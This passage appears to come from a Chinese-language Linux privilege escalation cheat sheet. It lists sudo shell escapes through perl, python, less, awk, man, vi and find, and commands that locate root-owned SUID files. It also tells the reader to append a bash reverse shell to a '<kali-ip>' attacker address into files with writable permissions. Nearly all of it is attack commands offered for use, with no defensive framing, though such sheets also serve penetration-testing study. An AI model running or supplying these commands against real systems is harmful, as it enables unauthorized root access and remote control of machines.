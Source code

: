 - perl:
    ```bash
    sudo perl -e 'exec "/bin/bash";'
    ```

- python:
    ```bash
    sudo python -c 'import pty;pty.spawn("/bin/bash")'
    ```

- less
    ```bash
    sudo less /etc/hosts
    v
    :shell
    ```

- awk
    ```bash
    sudo awk 'BEGIN {system("/bin/bash")}'
    ```

- man
    ```bash
    sudo man man
    !/bin/bash
    ```

- vi
    ```bash
    sudo vi

    :!bash
    或
    :!/bin/sh
    或
    :set shell=/bin/sh
    :shell
    ```

- find
    ```bash
    find . -exec /bin/sh \;
    ```

---

#### suid

**找带 suid 的文件**

并不是说程序存在 suid 位就可以提权,还需要看程序的所有者

```bash
find / -perm -u=s 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;
```
筛选出其中所有人有 rwx 权限的文件,添加如下一句话:
```bash
bash -i >& /dev/tcp/<kali-ip>/port 0>&1
```

---